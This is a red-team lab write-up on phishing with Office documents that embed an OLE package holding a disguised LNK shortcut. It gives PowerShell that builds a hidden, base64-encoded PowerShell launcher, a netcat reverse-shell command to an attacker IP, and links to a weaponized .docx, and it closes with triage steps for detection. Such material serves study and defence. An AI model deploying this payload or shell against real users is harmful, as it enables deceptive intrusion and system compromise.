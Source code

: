 ```yaml
---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them. 

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../.gitbook/assets/ole-payload.png)

Final result:

![](../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../.gitbook/assets/ole-execution.png)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](../../.gitbook/assets/ole-execution2.png)

{% file src="../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell..:

![](../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphaned process:

![](../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the suspicious Office document. First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and find `oleObject.bin` file that contains the malicious `.lnk`:

![](../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../.gitbook/assets/ole-hexdump.png)

As an analyst, one should look for `CLSID 00021401-0000-0000-c000-000000000046` in the .bin file, which signifies that the .doc contains an embnedded .lnk file. In our case this can be observed here:

![](../../.gitbook/assets/lnk-clsid.png)

## References

{% embed url="https://msdn.microsoft.com/en-gb/library/dd891343.aspx" %}

{% embed url="https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}

